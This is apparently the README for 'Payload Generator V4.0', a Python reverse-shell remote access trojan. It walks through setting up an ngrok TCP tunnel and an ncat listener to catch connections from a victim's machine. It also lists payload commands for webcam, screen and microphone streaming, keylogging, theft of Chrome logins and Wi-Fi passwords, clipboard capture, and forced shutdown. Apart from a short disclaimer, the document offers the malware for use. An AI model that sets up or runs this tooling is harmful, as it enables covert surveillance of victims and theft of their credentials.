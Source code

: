 ### **Documentation for Payload Generator V4.0 by PhantomCode**


#### **Purpose:**
The Payload Generator V4.0 is an advanced tool designed for remotely controlling a target’s machine using a reverse shell. It provides functionality for real-time webcam streaming, screen sharing, file management (upload/download), system manipulation (lock, shutdown, reboot), keylogging, and credential extraction (e.g., Google Chrome logins and Wi-Fi passwords). This version also includes integration with Ngrok for tunneling through NAT/firewalls and Ncat for TCP connections.

---

### **Setup Instructions**

#### **Requirements**

Before running the payload, ensure the following Python modules are installed on the attacker's machine:

```bash
pip install socket subprocess os time ctypes random pickle opencv-python numpy pyaudio pynput pywin32 threading struct pyautogui re json base64 pycryptodomex
```

Install **pywin32** (for Windows-based targets) if necessary:

```bash
pip install pywin32
```

#### **Ngrok Setup:**
1. **Download Ngrok** from [ngrok.com](https://ngrok.com) and ensure it’s properly installed on your machine.
2. Run the following command to create a TCP tunnel on port 8080 (or another specified port):
   ```bash
   ngrok tcp 8080
   ```
   This will provide you with a TCP forwarding address, something like `tcp://0.tcp.ngrok.io:xxxxx`. Note the address and port number for the next steps.

#### **Ncat Setup:**
Use Ncat or Netcat to listen for incoming connections on the port being forwarded by Ngrok. Run the following command on your terminal:
```bash
ncat -lvnp 8080
```
or 
```bash
nc -lvnp 8080
```

#### **Configure and Run the Payload:**


1. After modifying these details, run the Python script to generate and execute the payload on the target machine:
   ```bash
   python Payload_generator_V-4.0.py
   ```
   - **Attacker IP**: The IP address from the Ngrok connection (`0.tcp.ngrok.io`).
   - **Attacker Port**: The port number provided by Ngrok (`xxxxx`).

Once the payload is executed on the target, the reverse shell will establish a connection back to your Ncat listener.

---

### **Payload Commands**

This version of the payload allows the following commands to be executed on the target machine through the reverse shell. Each command initiates a specific action on the victim's system:

| **Command**              | **Description**                                                                 |
|--------------------------|---------------------------------------------------------------------------------|
| `webcam`                 | Starts streaming the target’s webcam feed to the attacker’s machine.              |
| `stop_webcam`            | Stops the webcam streaming.                                                       |
| `screenshare`            | Starts real-time screen sharing of the target’s display.                          |
| `stop_screenshare`       | Stops screen sharing.                                                             |
| `upload <filepath>`      | not done                                                                          |
| `download <filepath>`    | not done                                                                          |
| `lockscreen`             | Locks the target’s screen.                                                        |
| `shutdown`               | Shuts down the target’s machine.                                                  |
| `reboot`                 | Reboots the target’s machine.                                                     |
| `extract_google_logins`  | Extracts stored login credentials from Google Chrome.                             |
| `get_wifi_passwords`     | Extracts saved Wi-Fi passwords from the target machine.                           |
| `popups`                 | Creates random annoying pop-up windows on the target's screen.                    |
| `keylogs`                | Displays logged keystrokes from the keylogger running on the target machine.      |
| `start_keylogger`        | Starts a keylogger that records the target's keystrokes.                          |
| `stop_keylogger`         | Stops the keylogger.                                                              |
| `audio_real_time`        | Streams live audio from the target’s microphone to the attacker’s machine.        |
| `stop_audio`             | Stops the real-time audio streaming.                                              |
| `get_clipboard_content`  | Retrieves the current clipboard content from the target.                          |

---

### **Features and Functionality**

#### **1. Webcam and Screen Sharing**
- The **webcam** command starts streaming video from the target’s webcam in real-time, while **screenshare** starts streaming the target’s display.
- Use the **stop_webcam** and **stop_screenshare** commands to stop the streams.

#### **2. File Management (Upload/Download)**
- Not yet done

#### **3. System Actions**
- **lockscreen**: Locks the target's screen remotely.
- **shutdown** and **reboot** commands allow full control of the target system’s power state.
  
#### **4. Credential and Data Extraction**
- **extract_google_logins** retrieves all saved login credentials from Google Chrome.
- **get_wifi_passwords** collects stored Wi-Fi passwords from the target system.

#### **5. Pop-ups for Disruption**
- The **popups** command spawns random pop-up windows on the target’s machine, causing disruption and annoyance.

#### **6. Keylogging**
- The **start_keylogger** command begins capturing all keystrokes from the target’s keyboard. 
- **keylogs** retrieves the stored keystrokes, while **stop_keylogger** stops the logging process.

#### **7. Audio Capture**
- The **audio_real_time** command streams live audio from the target's microphone to the attacker’s system, while **stop_audio** stops the streaming.

#### **8. Clipboard Content**
- The **get_clipboard_content** command fetches whatever is currently in the clipboard of the target machine.

---

### **GUI Setup for Viewing Webcam and Screen Stream**

1. Run the **Main.py** file after starting the reverse shell to open the GUI.
2. This GUI allows real-time viewing of webcam streams and screen sharing data.
3. Use the respective commands in the reverse shell to start and stop the streams.

---

### **Troubleshooting**

1. **Connection Issues**:
   - If Ngrok disconnects, rerun the `ngrok tcp` command and restart the payload.
   - Ensure Ncat is listening on the same port forwarded by Ngrok.
   
2. **Failed Commands**:
   - Double-check that all Python dependencies are installed.
   - Ensure the correct file paths are used for upload/download actions.

3. **Keylogger Not Working**:
   - Make sure that `pynput` is properly installed and functioning on both the attacker and target systems.

---

### **Author and Legal Information**

- **Author**: PhantomCode  
- **Version**: 4.0  
- **Project**: Reverse Shell Payload Generator

#### **Legal Disclaimer**:
This tool is intended for educational purposes and authorized testing only. The author is not responsible for any misuse or damage caused by this tool. Unauthorized access to computer systems or networks is illegal and punishable by law. Always obtain explicit permission from the system owner before running tests or executing this payload.

# Copyright (c) 2024 PhantomCode943. All rights reserved.

